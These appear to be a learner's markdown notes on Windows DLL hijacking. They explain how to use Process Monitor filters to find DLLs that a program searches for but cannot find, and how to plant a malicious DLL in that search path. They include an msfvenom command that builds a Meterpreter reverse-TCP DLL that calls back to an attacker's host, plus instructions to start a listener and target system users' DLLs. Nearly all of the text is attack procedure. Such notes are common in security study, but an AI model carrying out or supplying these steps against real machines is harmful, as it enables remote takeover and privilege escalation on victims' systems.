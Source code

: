 ## DLL hijacking

## Process Monitor Software
> windows software required
> use Filters to list DLL files

### filter dll files
```
// in filter tab use
Path endwith .dll include
// then apply
```
![c7d432ea1f0893a616db2ce433fba526.png](../../../_resources/c7d432ea1f0893a616db2ce433fba526.png)

### working 
> 1. programs need dll files to run 
> 2. then search dll in theri current directory , system32 , system , c drive etc. , search in specific order 
> 3. we will place malicious dll files for progam who need
> 4. look for progam who search DLL and did not found it , then we place DLL where program search it 

### filter missing dll files
```
// DLL not found , search
// in filter
Result is NAME NOT FOUND include

```
![f9c0727e20e3102f9c4a54acb69a8750.png](../../../_resources/f9c0727e20e3102f9c4a54acb69a8750.png)

## DLL create
### msfvenom
```
msfvenom -p window/meterpreter/reverse_tcp LHOST=<your_ip> -f dll -o <dll_name>
```
#### then use put dll with required name in required path
#### use msf listner


---

### process monitor

```
in filter 
use  , USER filter to see dll of system users
and exploit them
```